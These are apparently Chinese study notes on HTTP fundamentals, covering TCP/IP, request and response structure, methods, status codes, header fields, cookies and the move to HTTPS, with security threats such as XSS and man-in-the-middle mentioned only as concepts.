


### 第一章 了解Web及网络基础

#### 1.3 网络基础TCP/IP

- TCP/IP分层管理

  - 应用层：向用户提供某种服务时的通信活动。如FTP（File Transfer Protocol），DNS（Domain Name System），HTTP（HyperText Transfer Protocol）等。
  - 传输层：提供处于网络连接中的两台计算机之间的数据传输。如TCP（Transmission Control Protocol）和UDP（User Data Protocol）。
  - 网络层：处理网络上流动的数据包。如IP（Internet Protocol）。
  - 数据链路层：处理网络的硬件部分，包括操作系统、硬件的设备驱动，网卡，光纤等。

  

#### 1.4 与 HTTP 关系密切的协议 : IP、TCP 和 DNS

- IP协议：为网络中的每一台设备分配一个唯一标识。

- TCP协议：将数据分割为以报文段为单位的数据包进行管理，并确保数据可靠地传输到目的地，例如采用三次握手确保建立连接等。

- DNS服务：提供域名到IP地址的解析。

  

#### 1.7 URI和URL

- URL（Uniform Resource Locator，统一资源定位符），即一个资源的路径。

- URI（Uniform Resource Identifier，统一资源标识符），即用一个字符串去唯一地标识一个资源，有多种方案，如网络中的资源用http，本机资源用file，如`file:///C:/Users/hp/Desktop/计算机网络（第7版）-谢希仁.pdf`。因此URL是URI的一个子集，或者说一种具体的实现。

  

### 第二章 简单的 HTTP 协议

#### 2.2 通过请求和响应的交换达成通信


请求报文由请求行（请求方法、请求 URI、协议版本）、可选的请求首部字段、空文本行和内容实体构成。

请求行格式为：`method URI version`。

- method包括get、post、options、head、put、delete、trace。
- URI（Uniform Resource Identifier）是相应URL的后缀，包括文件名和可选参数。
- version表明该请求遵循的HTTP版本。

请求报头为服务器提供额外的信息，格式为`header-name：header-data`。

空文本行终止报头。

内容实体包含查询字符串。


响应报文基本上由响应行（协议版本、状态码、用以解释状态码的原因短语）、可选的响应首部字段以及实体主体构成。

响应行格式为`version status-code status-message`。

- version表明响应所遵循的HTTP版本。

- 状态码是一个3位整数，表明对请求的处理。

- 状态消息给出与状态码等价的英文描述。


响应报头提供了关于响应的附加信息，如响应体内容的MIME类型，字节长度等。

空文本行终止报头。

接着响应体包含被请求的内容。

#### 2.3 HTTP 是不保存状态的协议

协议本身并不保留之前一切的请求或响应报文的信息。这是为了更快地处理大量事务，确保协议的可伸缩性。

为了实现期望的保持状态功能（如登录后不能切换页面就失效），于是引入了Cookie、Session等会话技术。

#### 2.5 告知服务器意图的 HTTP 方法（1.0vs1.1）

GET 方法用来请求访问已被 URI 识别的资源。指定的资源经服务器端解析后返回响应内容。

POST 方法用来传输实体的主体。POST可以获取响应，但主要目的是为了通知服务器比较多的信息，如表单。

PUT 方法用来传输文件。就像 FTP 协议的文件上传一样，要求在请求报文的主体中包含文件内容，然后保存到请求 URI 指定的位置。鉴于 HTTP/1.1 的 PUT 方法自身不带验证机制，任何人都可以上传文件 , 存在安全性问题，因此一般的 Web 网站不使用该方法。

HEAD 方法和 GET 方法一样，只是不返回报文主体部分，只返回响应报文首部。用于确认URI 的有效性及资源更新的日期时间等。

DELETE 方法用来删除文件，是与 PUT 相反的方法。DELETE 方法按请求 URI 删除指定的资源。与PUT类似存在安全性问题。

OPTIONS 方法用来查询针对请求 URI 指定的资源支持的方法。

TRACE 方法是让 Web 服务器端将之前的请求通信返回给客户端。发送请求时，在 Max-Forwards 首部字段中填入数值，每经过一个服务器端就将该数字减 1，当数值刚好减到 0 时，就停止继续传输，最后接收到请求的服务器端则返回状态码 200 OK 的响应。返回响应中包含请求的内容，用于确认中转过程中是否被篡改。

CONNECT 方法要求在与代理服务器通信时建立隧道，实现用隧道协议进行 TCP 通信。主要使用 SSL（Secure Sockets Layer，安全套接层）和 TLS（Transport Layer Security，传输层安全）协议把通信内容加密后经网络隧道传输。


#### 2.7 持久连接节省通信量（1.0vs1.1）

HTTP初始版本中，每进行一次HTTP通信就要断开一次TCP连接。


为解决上述 TCP 连接的问题，HTTP/1.1 和一部分的 HTTP/1.0 想出了持久连接（HTTP Persistent Connections，也称为 HTTP keep-alive 或HTTP connection reuse）的方法。持久连接的特点是，只要任意一端没有明确提出断开连接，则保持 TCP 连接状态。


持久连接的好处在于减少了 TCP 连接的重复建立和断开所造成的额外开销，减轻了服务器端的负载，HTTP 请求和响应能够更早地结束，这样 Web 页面的显示速度也就相应提高。

**在 HTTP/1.1 中，所有的连接默认都是持久连接，但在 HTTP/1.0 内并未标准化。**

持久连接使得多数请求以管线化（pipelining）方式发送成为可能。从前发送请求后需等待并收到响应，才能发送下一个请求。管线化技术出现后，不用等待响应亦可直接发送下一个请求。


#### 2.8 使用 Cookie 的状态管理

Cookie 会根据从服务器端发送的响应报文内的一个叫做 Set-Cookie 的首部字段信息，通知客户端保存 Cookie。当下次客户端再往该服务器发送请求时，客户端会自动在请求报文中加入 Cookie 值后发送出去。


### 第三章 HTTP 报文内的 HTTP 信息

#### 3.1 HTTP 报文

用于 HTTP 协议交互的信息被称为 HTTP 报文。请求端（客户端）的HTTP 报文叫做请求报文，响应端（服务器端）的叫做响应报文。HTTP 报文本身是由多行（用 CR+LF 作换行符）数据构成的字符串文本。


#### 3.2 请求报文及响应报文的结构


请求行包含用于请求的方法，请求 URI 和 HTTP 版本。
状态行包含表明响应结果的状态码，原因短语和 HTTP 版本。
首部字段包含表示请求和响应的各种条件和属性的各类首部。一般有 4 种首部，分别是：通用首部、请求首部、响应首部和实体首部。
其他可能包含 HTTP 的 RFC 里未定义的首部（Cookie 等）。

#### 3.3 编码提升传输速率

- 报文主体和实体主体的差异

  报文（message）是 HTTP 通信中的基本单位，由 8 位组字节流（octet sequence，其中 octet 为 8 个比特）组成，通过 HTTP 通信传输。
  实体（entity）作为请求或响应的有效载荷数据（补充项）被传输，其内容由实体首部和实体主体组成。

  通常，报文主体等于实体主体。只有当传输中进行编码操作时，实体主体的内容发生变化，才导致它和报文主体产生差异。

  （报文是要传递的信息，实体是信息编码后传输时的内容）

- 压缩传输的内容编码

  内容编码指明实体内容使用的编码格式，并保持实体信息原样压缩。内容编码后的实体由客户端接收并负责解码。

  常用的内容编码有以下几种。

  - gzip（GNU zip）
  - compress（UNIX 系统的标准压缩）
  - deflate（zlib）
  - identity（不进行编码）

- 分割发送的分块传输编码

  在传输大容量数据时，通过把数据分割成多块，能够让浏览器逐步显示页面。这种把实体主体分块的功能称为分块传输编码（Chunked TransferCoding）。每一块都会用十六进制来标记块的大小，而实体主体的最后一块会使用“0(CR+LF)”来标记。

#### 3.4 发送多种数据的多部分对象集合

HTTP 协议中也采纳了多部分对象集合（multipart），发送的一份报文主体内可含有多类型实体。

使用时需要在首部字段里加上Content-Type。boundary 字符串来划分多部分对象集合指明的各类实体。

- multipart/form-data 在 Web 表单上传文件时使用。

  

- multipart/byteranges 状态码 206（Partial Content，部分内容）**响应报文**包含了多个范围的内容时使用。

  

#### 3.5 获取部分内容的范围请求

想支持断点下载，这需要指定下载的实体范围，即范围请求。

执行范围请求时，用首部字段 Range 来指定资源的 byte 范围。

针对范围请求，响应会返回状态码为 206 Partial Content 的响应报文。另外，对于多重范围的范围请求，响应会在首部字段 Content-Type 标明 multipart/byteranges 后返回响应报文。如果服务器端无法响应范围请求，则会返回状态码 200 OK 和完整的实体内容。


#### 3.6 内容协商返回最合适的内容

内容协商机制是指客户端和服务器端就响应的资源内容进行交涉，然后提供给客户端最为适合的资源。内容协商会以响应资源的语言、字符集、编码方式等作为判断的基准。

如一些请求头Accept、Accept-Charset、Accept-Encoding、Accept-Language、Content-Language。

内容协商技术有以下 3 种类型。

- 服务器驱动协商（Server-driven Negotiation）：由服务器端进行内容协商。以请求的首部字段为参考，在服务器端自动处理。
- 客户端驱动协商（Agent-driven Negotiation）：由客户端进行内容协商的方式。用户从浏览器显示的可选项列表中手动选择。（一个网页最下面提供的“电脑版”“手机版”）
- 透明协商（Transparent Negotiation）：是服务器驱动和客户端驱动的结合体，是由服务器端和客户端各自进行内容协商的一种方法。

### 第四章 返回结果的 HTTP 状态码

HTTP 状态码负责通知客户端 HTTP 请求的返回结果、标记服务器端的处理是否正常、通知出现的错误等工作。

#### 4.1 状态码告知从服务器端返回的请求结果

数字中的第一位指定了响应类别，后两位无分类。响应类别有以下5种。


100 continue。

101 switching protocols。

#### 4.2 2XX 成功

2XX的响应结果表明请求被正常处理了。

- 200 OK，表示从客户端发来的请求在服务器端被正常处理了。

- 204 No Content，该状态码代表服务器接收的请求已成功处理，但在返回的响应报文中不含实体的主体部分。一般在只需要从客户端往服务器发送信息，而对客户端不需要发送新信息内容的情况下使用。

- 206 Partial Content，该状态码表示客户端进行了范围请求，而服务器成功执行了这部分的GET 请求。响应报文中包含由 Content-Range 指定范围的实体内容。

#### 4.3 3XX 重定向

**3XX 响应结果表明浏览器需要执行某些特殊的处理以正确处理请求。**

- 301 Moved Permanently，永久性重定向。该状态码表示请求的资源已被分配了新的 URI，以后应使用资源现在所指的 URI，即 Location 首部字段提示的 URI 。
- 302 Found，临时性重定向。该状态码表示请求的资源已被分配了新的 URI，希望用户（本次）能使用新的 URI 访问。它是临时性质的，已移动的资源对应的URI 将来还有可能发生改变。
- 303 See Other，该状态码表示由于请求对应的资源存在着另一个 URI，（规定客户端）应使用GET方法定向获取请求的资源。

当 301、302、303 响应状态码返回时，几乎所有的浏览器都会把POST 改成 GET，并删除请求报文内的主体，之后请求会自动再次发送。

- 304 Not Modified，该状态码表示客户端发送附带条件的请求（采用 GET 方法的请求报文中包含 If-Match，If-Modified-Since，If-None-Match，If-Range，If-Unmodified-Since 中任一首部）时，服务器端允许请求访问资源，但未满足条件的情况。304 状态码返回时，不包含任何响应的主体部分。304 虽然被划分在 3XX 类别中，但是和重定向没有关系。
- 307 Temporary Redirect，临时重定向。该状态码与 302 Found 有着相同的含义，区别只是不会把POST请求变成GET请求。

#### 4.4 4XX 客户端错误

4XX 的响应结果表明客户端是发生错误的原因所在。

- 400 Bad Request，该状态码表示请求报文中存在语法错误。当错误发生时，需修改请求的内容后再次发送请求。
- 401 Unauthorized，该状态码表示发送的请求需要有通过 HTTP 认证（BASIC 认证、DIGEST 认证）的认证信息。另外若之前已进行过 1 次请求，则表示用户认证失败。
  返回含有 401 的响应必须包含一个适用于被请求资源的 WWW-Authenticate 首部用以质询（challenge）用户信息。当浏览器初次接收到 401 响应，会弹出认证用的对话窗口。
- 403 Forbidden，该状态码表明对请求资源的访问被服务器拒绝了。服务器端没有必要给出拒绝的详细理由，但如果想作说明的话，可以在实体的主体部分对原因进行描述。例如未获得文件系统的访问授权，从未授权的发送源 IP 地址试图访问等。
- 404 Not Found，该状态码表明服务器上无法找到请求的资源。除此之外，也可以在服务器端拒绝请求且不想说明理由时使用。

#### 4.5 5XX 服务器错误

5XX 的响应结果表明服务器本身发生错误。

- 500 Internal Server Error，该状态码表明服务器端在执行请求时发生了错误。可能是 Web应用存在的 bug 或某些临时的故障。
- 503 Service Unavailable，该状态码表明服务器暂时处于超负载或正在进行停机维护，现在无法处理请求。

### 第五章 与 HTTP 协作的 Web 服务器

#### 5.2 通信数据转发程序 ：代理、网关、隧道

HTTP 通信时，除客户端和服务器以外，还有一些用于通信数据转发的应用程序，例如代理、网关和隧道。

- 代理是一种有转发功能的应用程序，它扮演了位于服务器和客户端“中间人”的角色，接收由客户端发送的请求并转发给服务器，同时也接收服务器返回的响应并转发给客户端。转发时，需要附加Via 首部字段以标记出经过的主机信息。

  

  使用代理服务器的理由有：利用缓存技术减少网络带宽的流量，组织内部针对特定网站的访问控制，以获取访问日志为主要目的，等等。

  代理有多种使用方法，按两种基准分类。一种是是否使用缓存，另一种是是否会修改报文。

  - 代理服务器转发响应时，缓存代理（Caching Proxy）会顺便将资源的副本（缓存）保存在代理服务器上。当代理再次接收到对相同资源的请求时，就可以不从源服务器那里获取资源，而是将之前缓存的资源作为响应返回（需要确认缓存有效）。
  - 转发请求或响应时，不对报文做任何加工的代理类型被称为透明代理（Transparent Proxy）。反之，对报文内容进行加工的代理被称为非透明代理。

- 网关的工作机制和代理十分相似，但网关能使通信线路上的服务器提供非 HTTP 协议服务。比如，网关可以连接数据库（基于TCP/IP协议），使用SQL 语句查询数据。

  

- 隧道可按要求建立起一条与其他服务器的通信线路，届时使用 SSL 等加密手段进行通信。隧道的目的是确保客户端能与服务器进行安全的通信。

#### 5.3 保存资源的缓存

缓存是指代理服务器或客户端本地磁盘内保存的资源副本。利用缓存可减少对源服务器的访问，因此也就节省了通信流量和通信时间。

即使存在缓存，也会因为客户端的要求、缓存的有效期等因素，向源服务器确认资源的有效性。若判断缓存失效，缓存服务器将会再次从源服务器上获取“新”资源。

浏览器缓存如果有效，就不必再向服务器请求相同的资源了，可以直接从本地磁盘内读取。同样，当判定缓存过期后，会向源服务器确认资源的有效性。若判断浏览器缓存失效，浏览器会再次请求新资源。

### 第六章 HTTP 首部

#### 6.2 HTTP 首部字段

首部内容为客户端和服务器分别处理请求和响应提供所需要的信息。

- 字段结构

  首部字段名: 字段值。

  字段值对应单个 HTTP 首部字段可以有多个值，如`Keep-Alive: timeout=15, max=100`。

- 4 种 HTTP 首部字段类型，HTTP/1.1 规范定义了 47 种首部字段。

  - 通用首部字段（General Header Fields）：请求报文和响应报文两方都会使用的首部。

    

  - 请求首部字段（Request Header Fields）：专用于请求报文使用的首部。补充了请求的附加内容、客户端信息、响应内容相关优先级等信息。

    

  - 响应首部字段（Response Header Fields）：专用于响应报文使用的首部。补充了响应的附加内容，也会要求客户端附加额外的内容信息。

    

  - 实体首部字段（Entity Header Fields）：针对请求报文和响应报文的实体部分使用的首部。补充了资源内容更新时间等与实体有关的信息。

    

  非正式的首部字段如Cookie、Set-Cookie等在其他 RFC 中定义。

- 根据缓存代理和非缓存代理的行为，HTTP 首部字段分成 2 种类型。

  - 端到端首部（End-to-end Header）：分在此类别中的首部会被转发，且必须保存在由缓存生成的响应中。

  - 逐跳首部（Hop-by-hop Header）：分在此类别中的首部只对单次转发有效。Connection、Keep-Alive
    Proxy-Authenticate、Proxy-Authorization、Trailer、TE、Transfer-Encoding、Upgrade，其他均为端到端首部。

#### 6.3 通用首部字段

- Cache-Control：操作缓存的工作机制，可用的指令按请求和响应分类如下所示。

  

  ​	

  - public：任何用户都能利用缓存。

  - private：对特定用户提供资源缓存的服务，对于其他用户发送过来的请求，代理服务器则不会返回缓存。

  - no-cache：由客户端发出表明客户端将不会接收缓存过的响应。由服务器发出表明代理服务器可以使用缓存，每次使用缓存时，都要向服务器验证（即不缓存过期的资源）。

    `Cache-Control: no-cache=Location`服务器指定参数后，该地址的资源不能使用缓存。

  - no-store：不进行缓存。

  - s-maxage：同max-age作用一样，只在代理服务器中生效（比如CDN缓存）。

  - max-age：由客户端指定时，如果客户端/代理服务器的缓存没有超过指定的时间，那么就返回该缓存（可能资源相对于服务器并不是最新的）。由服务器指定时，如果客户端/代理服务器的缓存没有超过指定的时间，则不再向服务器验证。

  - min-fresh：要求代理服务器返回缓存过期时间未超过指定时间（当前时间+min-fresh）的缓存资源。

  - max-stale：只要缓存过期时长在指定时间内，客户端仍然可以接收。

  - only-if-cached：只有代理服务器有目标资源的缓存才要求其返回。

  - must-revalidate：客户端/代理服务器向源服务器再次验证即将返回的响应缓存目前是否仍然有效。若无法连通源服务器再次获取有效资源的话，客户端/缓存服务器给客户端返回 504（Gateway Timeout）状态码。会忽略请求的 max-stale 指令。

  - proxy-revalidate：要求代理服务器验证缓存的有效性。

  - no-transform：缓存不能改变媒体类型（这个为什么放在cache-control里？可能因为代理的一大功能就是缓存吧）。

  - cache-extension：可以扩展 Cache-Control 首部字段内的指令，当然需要双方协商好。

- Connection：作用是控制不再转发的首部字段；管理持久连接。

  - `Connection: 不再转发的首部字段名`

    

  - `Connection: close`，表明断开持久连接。

    `Connection: Keep-Alive`，在旧版本的 HTTP 协议上维持持续连接（1.1默认为持续链接）。

- Date：表明创建 HTTP 报文的日期和时间。

- Pragma：HTTP/1.1 之前版本的历史遗留字段，仅作为与 HTTP/1.0的向后兼容而定义。

  形式唯一，`Pragma: no-cache`，只用在客户端发送的请求中。

- Trailer：事先说明在报文主体后记录了哪些首部字段。该首部字段可应用在 HTTP/1.1 版本分块传输编码时。

- Transfer-Encoding：规定了传输报文主体时采用的编码方式。HTTP/1.1 的传输编码方式仅对分块传输编码有效。

- Upgrade：用于检测 HTTP 协议及其他协议是否可使用更高的版本进行通信，其参数值可以用来指定一个完全不同的通信协议。对于附有首部字段 Upgrade 的请求，服务器可用 101 Switching Protocols 状态码作为响应返回。

- Via ：追踪客户端与服务器之间的请求和响应报文的传输路径，并且避免请求回环的发生。报文经过代理或网关时，会先在首部字段 Via 中附加该服务器的信息，然后再进行转发。

- Warning：从 HTTP/1.0 的响应首部Retry-After演变过来的。该首部通常会告知用户一些与缓存相关的问题的警告。

  格式：`Warning: [警告码][警告的主机:端口号]“[警告内容]”([日期时间])`

  HTTP/1.1 中定义了 7 种警告。

  

#### 6.4 请求首部字段

- Accept：通知服务器，客户端能够处理的媒体类型及媒体类型的相对优先级。可使用 type/subtype 这种形式，一次指定多种媒体类型。若想要给显示的媒体类型增加优先级，则使用`q=权重值`，用分号`;`进行分隔。

  如`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`

- Accept-Charset：通知服务器客户端支持的字符集及字符集的相对优先顺序。

  如`Accept-Charset: iso-8859-5, unicode-1-1;q=0.8`。

- Accept-Encoding：告知服务器客户端支持的**内容**编码及内容编码的优先级顺序。

  如`Accept-Encoding: gzip, deflate`。

  常用的内容编码有以下几种。

  - gzip（GNU zip）
  - compress（UNIX 系统的标准压缩）
  - deflate（zlib）
  - identity（不进行编码）

- Accept-Language：告知服务器客户端能够处理的自然语言集（指中文或英文等），以及自然语言集的相对优先级。

  如`Accept-Language: zh-cn,zh;q=0.7,en-us,en;q=0.3`。

- Authorization：来告知服务器客户端的认证信息（证书值）。

  

- Expect：告知服务器，期望出现的某种特定行为。客户端可以利用该首部字段，写明所期望的扩展，虽然 HTTP/1.1 规范只定义了 100-continue。

  因服务器无法理解客户端的期望作出回应而发生错误时，会返回状态码 417 Expectation Failed。

  如`Expect: 100-continue`。

- From：告知服务器使用客户端的用户的电子邮件地址。目的就是为了显示搜索引擎等用户代理的负责人的
  电子邮件联系方式。

- Host：告知服务器，请求的资源所处的互联网主机名和端口号。**在 HTTP/1.1 规范内是唯一一个必须被包含在请求内的首部字段**。

  和以单台服务器分配多个域名的虚拟主机的工作机制有很密切的关联（域名解析只能到主机地址，因此需要Host首部指定的端口号信息）。

- If-Match：告知服务器匹配资源所用的实体标记（ETag）值。

  服务器接收到附带条件的请求后，只有判断指定条件为真时，才会执行请求。

  

- If-Modified-Since：告知服务器如果资源在指定时间点后更新过，就返回，否则返回状态码 304 Not Modified 的响应。

- If-None-Match：该字段值的实体标记（ETag）值与请求资源的 ETag 不一致时，它就告知服务器处理该请求。

- If-Range：告知服务器若指定的 If-Range 字段值（ETag 值或者时间）和请求资源的 ETag 值或时间相一
  致时，则作为范围请求处理。反之，则返回新的全部资源。

  

  如果不使用If-Range，当资源已经更新过时，需要发送两次请求才能获得新的资源。（这里是使用If-Match，Etag不一致则返回412状态，如果只使用Range呢）

  

- If-Unmodified-Since：告知服务器如果资源在指定时间点后没更新过，就返回，否则返回状态码 412 Precondition Failed 的响应。

- Max-Forwards：以十进制整数形式指定可经过的服务器最大数目。每次转发时数值减 1，当数值变 0 时由当前服务器返回响应。

- Proxy-Authorization：接收到从代理服务器发来的认证质询时，客户端会发送包含首部字段Proxy-Authorization 的请求，以告知服务器认证所需要的信息。

- Range：发起范围请求，告知服务器资源的指定范围。服务器处理该范围请求之后返回状态码为 206 Partial Content 的响应，无法处理该范围请求时，则会返回状态码 200 OK 的响应及全部资源。

- Referer：告知服务器发起请求的原始资源（即来源）的 URI。

  

- TE：告知服务器客户端能够处理响应的**传输**编码方式及相对优先级。

  如`TE: gzip, deflate;q=0.5`。

  还可以指定伴随 trailer 字段的分块传输编码的方式（？）。

  如`TE: trailers`。

- User-Agent：告知服务器创建请求的浏览器和用户代理名称等信息。

  如`   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36 Edge/18.18362`。

#### 6.5 响应首部字段

- Accept-Ranges：告知客户端，服务器是否能处理范围请求。可处理范围请求时指定其为 bytes，反之则
  指定其为 none。

- Age：告知客户端，源服务器在多久前创建了响应。字段值的单位为秒。

  若创建该响应的服务器是代理服务器，Age 值是指向源服务器发起缓存确认到确认完成的时间值。

- ETag：告知客户端一个资源的实体标识。它是一种将资源以字符串形式做唯一性标识的方式。当资源更新时，ETag 值也需要更新。

  强 ETag 值，不论实体发生多么细微的变化都会改变其值。

  弱 ETag 值只用于提示资源是否相同。只有资源发生了根本改变，产生差异时才会改变 ETag 值。这时，会在字段值最开始处附加“W/”。

- Location：告知客户端资源所在的，与请求 URI 不同的另一个位置。配合 3xx ：Redirection 的响应，提供重定向的URI。

- Proxy-Authenticate：代理服务器把所要求的认证信息发送给客户端。

- Retry-After：告知客户端应该在多久之后再次发送请求。主要配合状态码 503 Service Unavailable 响应，或 3xx Redirect 响应一起使用。

  可以指定为具体的日期时间，也可以是创建响应后的秒数。

- Server：告知客户端当前服务器上安装的 HTTP 服务器应用程序的信息。

- Vary：源服务器向代理服务器传达关于本地缓存使用方法的命令。

  如：`Vary: Accept-Language`，代理服务器收到命令后，只对Accept-Language首部与其相同的请求返回缓存。

- WWW-Authenticate：告知客户端适用于访问请求 URI 所指定资源的认证方案（Basic 或是 Digest）和
  带参数提示的质询（challenge）。

  如`WWW-Authenticate: Basic realm="Usagidesign Auth"`。

#### 6.6 实体首部字段

其实响应体的内容比较多，请求体可能在类似提交表单的时候才出现，因此实体首部字段基本上也都属于响应首部字段。

- Allow：通知客户端能够支持 Request-URI 指定资源的所有 HTTP 方法。当服务器接收到不支持的 HTTP 方法时，会以状态码405 Method Not Allowed 作为响应返回。

- Content-Encoding：告知客户端服务器对响应体使用的内容编码方式。

- Content-Language：告知客户端，响应体使用的自然语言。

- Content-Length：表明了响应体的字节长度。对响应体进行内容编码传输时，不能再使用 Content-Length首部字段。

- Content-Location：给出与报文主体部分相对应的 URI。

  大部分情况与请求URI相同，当返回的页面内容与实际请求的对象不同时，Content-Location内会写明 URI（访问 http://www.hackr.jp/ 返回的对象却是http://www.hackr.jp/index-ja.html 等类似情况）。

- Content-MD5：是一串由 MD5 算法生成的值，其目的在于检查报文主体在传输过程中是否保持完整，以及确认传输到达。客户端会对报文主体执行一次相同的 MD5 算法，用计算出的值与字段值作比较。

- Content-Range：针对范围请求，告知客户端作为响应返回的实体的哪个部分符合范围请求。

  如`Content-Range: bytes 5001-10000/10000`。

- Content-Type：告知客户端响应体的媒体类型以及字符集。

  如`Content-Type: text/html; charset=UTF-8`。

- Expires：告知客户端/代理服务器（缓存）资源失效的时间，类似max-age，在失效之前可以不向源服务器确认缓存有效性，直接返回缓存。

- Last-Modified：指明资源上一次被修改的时间。

#### 6.7 为 Cookie 服务的首部字段

服务器通过 Web 浏览器，把一些数据临时写入客户端。客户端再次访问服务器时，将Cookie传送回服务器。

- Set-Cookie：响应首部字段，当服务器准备开始管理客户端的状态时，会事先告知各种信息。

  

  - expires：服务器可以通过覆盖已过期的Cookie实现对客户端Cookie的实质性删除。

  - path：为服务器path路径下的特定文档指定Cookie，这个属性设置的url且带有这个前缀的url路径都是有效的。

    如m.zhuanzhuan.58.com 和 m.zhaunzhuan.58.com/user/这两个url。 m.zhuanzhuan.58.com 设置cookie

    ```
    Set-cookie: id="123432";domain="m.zhuanzhuan.58.com";
    ```

    m.zhaunzhuan.58.com/user/ 设置cookie：

    ```
    Set-cookie：user="wang", domain="m.zhuanzhuan.58.com"; path=/user/
    ```

    但是访问其他路径m.zhuanzhuan.58.com/other/就会获得

    ```
    cookie: id="123432"
    ```

    如果访问m.zhuanzhuan.58.com/user/或者m.zhuanzhuan.58.com就会获得

    ```
    cookie: id="123432"
    cookie: user="wang"
    ```

  - domian：指定的域名可做到与结尾匹配一致。比如，当指定 example.com 后，除 example.com 以外，www.example.com或 www2.example.com 等都可以发送 Cookie。

  - HttpOnly：防止跨站脚本攻击（Cross-sitescripting，XSS）对 Cookie 的信息窃取。使用 JavaScript 的 document.cookie 无法读取附加 HttpOnly 属性后的 Cookie 的内容了。

- Cookie：告知服务器，当客户端想获得 HTTP 状态管理支持时，就会在请求中包含从服务器接收到的 Cookie。

  如`Cookie: status=enable`开启Cookie功能。

#### 6.8 其他（非标准）首部字段

HTTP 首部字段是可以自行扩展的。

- X-Frame-Options：响应首部，用于控制网站内容在其他 Web 网站的 Frame 标签内的显示问题。其主要目的是为了防止点击劫持（clickjacking）攻击。字段值有两个：

  - DENY ：拒绝
  - SAMEORIGIN ：仅同源域名下的页面（Top-level-browsing-context）匹配时许可。比如，当指定 http://hackr.jp/sample.html页面为 SAMEORIGIN 时，那么 hackr.jp 上所有页面的 frame 都被允许可加载该页面，而 example.com 等其他域名的页面就不行了。
- X-XSS-Protection：响应首部，它是针对跨站脚本攻击（XSS）的一种对策，用于控制浏览器 XSS 防护机制的开关。字段值有两个：

  - 0 ：将 XSS 过滤设置成无效状态
  - 1 ：将 XSS 过滤设置成有效状态
- DNT：请求首部，其中 DNT 是 Do Not Track 的简称，意为拒绝个人信息被收集，是表示拒绝被精准广告追踪的一种方法。字段值有两个：

  - 0 ：同意被追踪
  - 1 ：拒绝被追踪
- P3P： 响应首部，通过利用 P3P（The Platform for Privacy Preferences，在线隐私偏好平台）技术，可以让 Web 网站上的个人隐私变成一种仅供程序可理解的形式，以达到保护用户隐私的目的。

### 第七章　确保 Web 安全的HTTPS

#### 7.1 HTTP 的缺点

- 通信使用明文（不加密），内容可能会被窃听。

  因为TCP/IP本身就是可能被窃听的网络，数据包在公共的通信线路中传输，就算加密也能看到通信内容。

  通常使用加密技术来保护信息：

  - **通信加密，通过和 SSL（Secure Socket Layer，安全套接层）或TLS（Transport Layer Security，安全层传输协议）的组合使用，加密 HTTP 的通信内容。与 SSL 组合使用的 HTTP 被称为 HTTPS（HTTP Secure，超文本传输安全协议）或 HTTP over SSL。**

  - 内容加密，即把HTTP 报文主体（响应体/请求体）里所含的内容进行加密处理，需要客户端和服务器同
    时具备加密和解密机制。

- 不验证通信方的身份，因此有可能遭遇伪装。（虽然HTTP有认证，但是只能做到密码不被窃听，并不能认证对方是不是伪装者，伪装者仍能通过验证）

  在 HTTP 协议通信时，由于不存在确认通信方的处理步骤，任何人都可以发起请求。服务器只要接收到请求，不管对方是谁都会返回一个响应。这导致可能存在的隐患：

  - 请求传送到被篡改的服务器上。
  - 响应返回到被篡改的客户端上。
  - 无法判定请求来自何方。
  - 即使是无意义的请求也会照单全收，无法阻止海量请求下的 DoS 攻击。

  使用SSL提供的证书，用以证明服务器和客户端的身份，通信方就是意料中的服务器。

- 无法证明报文的完整性，所以有可能已遭篡改。

  请求或响应在传输途中，遭攻击者拦截并篡改内容的攻击称为中间人攻击（Man-in-the-Middle attack，MITM）。

  常用的校验方式有MD5 和 SHA-1 等散列值校验的方法，以及PGP（Pretty Good Privacy，完美隐私）等用来确认文件的数字签名方法。但它们无法确保内容没有被篡改，因为篡改文件后再篡改MD5、PGP等用户仍然无法发现。

#### 7.2 HTTP + 加密 + 认证 + 完整性保护=HTTPS

- 添加了加密及认证机制的 HTTP 称为 HTTPS（HTTPSecure）。**HTTPS 只是 HTTP 通信接口部分用SSL（Secure Socket Layer）和 TLS（Transport Layer Security）协议代替。**

  

  SSL 是独立于 HTTP 的协议，其他运行在应用层的 SMTP 和 Telnet 等协议均可配合 SSL 协议使用。

- SSL 采用一种叫做公开密钥加密（Public-key cryptography）的加密处理方式。

  - 共享密钥加密/对称密钥加密：加密和解密同用一个密钥。这需要在传输时把密钥也发给对方，那陷入了保护密钥不被窃听的套娃中。任何人得到了密钥都可以破解密码。
  - 公开密钥加密/非对称密钥加密：每个终端有两把密钥，一把叫做私有密钥（private key），另一把叫做公开密钥（public key）。发送密文的一方使用对方的公开密钥进行加密处理，对方收到被加密的信息后，再使用自己的私有密钥进行解密。

